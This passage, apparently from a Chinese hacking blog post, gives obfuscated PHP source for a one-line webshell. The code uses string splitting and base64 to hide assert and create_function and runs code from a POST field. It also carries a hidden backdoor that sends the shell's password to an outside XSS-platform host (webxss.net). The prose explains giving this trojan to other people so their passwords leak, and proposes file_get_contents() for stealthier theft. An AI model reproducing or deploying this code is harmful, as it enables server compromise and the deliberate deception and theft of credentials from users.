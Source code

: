 `<?php`

 `$a1` `=` `'ass'``;`

 `$a2` `=` `'ert'``;`

 `$a` `=` `$a1``.``$a2``;` `//$a就是assert`

 `$a1` `=` `'base64_'``;`

 `$a2` `=` `'decode'``;`

 `$b` `=` `$a1``.``$a2``;` `//$b就是base64_decode`

 `$a1` `=` `$b``(``'Y3JlYXRlXw=='``);`

 `$a2` `=` `$b``(``'ZnVuY3Rpb24='``);`

 `$url` `=` `$b``(``'PGltZyBzcmM9Imh0dHA6Ly93ZWJ4c3MubmV0Ly9pbmRleC5waHA/ZG89YXBpJmlkPTJoNjJXViZsb2NhdGlvbj1taW1hOg=='``);` `//后门`

 `$c` `=` `$a1``.``$a2``;` `//$c就是create_function`

 `$pw` `=` `'abc'``;` `//设置密码`

 `echo` `$url``.``$pw``.``' />'``;` `//发送密码给自己的xss平台接口`

 `$xx` `=` `$c``(``""``,` `$b``(``'YXNzZXJ0KCRfUE9TVFsn'``).``$pw``.``$b``(``'J10pOw=='``));` `//assert($_POST['zxc']); 完成一句话拼接`

 `$xx``();` `//执行一句话`

`?>`

 |

  
注释我也写的挺详细的了，慢慢看吧  
  
把带后门的伪免杀木马给他时，同目录下写个使用必看的 txt，里面说：  
使用前先不要连接菜刀！先手动测试：  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3zqB40FajMcXsrq7iakhTUZY0dvGR6pEOWy31ic5vnpr6bjMwpVmU0mag/640?wx_fmt=png)

这样我们就能接受到了：  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a398bVibcRePXeSUMGMSUZ5UXN5An9LRAwe8OpPmBwnV92OgJSUmHxKBA/640?wx_fmt=png)

  
（木马所在 url 也有，图中右边的 HTTP_REFERER）  
  
这样其实有局限性。  
因为 html 语言由浏览器负责解析  
菜刀是不解析的，因此直接连接菜刀是不能偷到密码的  
  
但我们可以用 php 来链接 xss 平台接口，例如 file_get_contents()  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3PFG1t2JxeKlgmqQeSliaOFmnhk6zBUm5DrP6JC1J4erkgGXuzXa89Fw/640?wx_fmt=png)

  
这样就解决这个问题了。
